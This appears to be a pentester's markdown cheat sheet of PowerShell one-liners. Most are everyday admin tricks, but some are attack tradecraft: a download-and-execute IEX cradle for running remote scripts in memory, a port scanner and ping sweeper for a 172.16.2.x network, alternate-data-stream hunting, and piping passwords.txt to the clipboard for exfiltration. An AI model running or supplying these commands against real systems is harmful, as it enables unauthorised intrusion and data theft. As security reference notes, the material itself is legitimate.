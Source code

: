 # PowerShell Conveniences

### Switches

`-NoExit` - Keeps ps window open; useful for debugging macros that are ran when a document is open

### Commands

Gets installed software, version, and install date.
```PowerShell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```

Web requests (if one doesnt work, try the other). PowerUp!
```PowerShell
Invoke-WebRequest -Uri <target uri> -Method Get -Outfile <whatevs>.ps1 #IWR
powershell IEX(New-Object Net.Webclient).downloadString("<target uri>") #Invoke-Expression
#IEX if you want to execute without touching the disk
```

"which" nix-style output.
```powershell
Get-Command <your command> | Select-Object -ExpandProperty Definition
```

"grep"-like with x number of lines before or after.
```powershell
<some_cmd> | Select-String -Pattern "whatever" -Context 2,4
# print 2 lines before "whatever" and 4 lines after "whatever" (including "whatever")
```

sort uniq
```powershell
Get-Content file.txt | Sort-Object -unique
```
Find a file recursively
```powershell
gci -Path V:\Myfolder -Filter filename.ext -Recurse -ErrorAction SilentlyContinue -Force
```
Find a string within a file recursively
```powershell
ls -recurse | Select-String "google" | Select Path, LineNumber | Format-List
#alternatively
ls c:\temp\searchfolder -recurse | Select-String "google" | Select Path, LineNumber | Format-List
```
Get FQDN
```powershell
[System.Net.Dns]::GetHostByName($env:computerName)
```
Search for hidden files in a dir
```powershell
gci -recurse -Hidden -ErrorAction SilentlyContinue
```
copy files of one type from a share to your local machine, recursively
```powershell
 gci z:\ -Recurse -Filter *.xml | Copy -Destination C:\path\to\dir
 ```
wc -c equivalent
```powershell
echo "hash" | Measure-Object -Character
```
search current dir recursively for alternate data streams
```powershell
Get-ChildItem -recurse | ForEach { Get-Item $_.FullName -stream * } | Where stream -ne ':$DATA'
```
get data from ADS's found with the above cmd
```powershell
Get-Content -Path '.\Debug Mode filename.ext' -stream stream-name
```
port scanner
```powershell
1..65535 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("172.16.2.5",$_)) "Port $_ is open" } 2>$null
```
ping sweeper
```
1..255 | % {echo "172.16.2.$_"; ping -n 1 -w 100 172.16.2.$_ | select-string ttl}
```
exfil by clipboard... when all else fails.
```powershell
type passwords.txt | Set-Clipboard
```
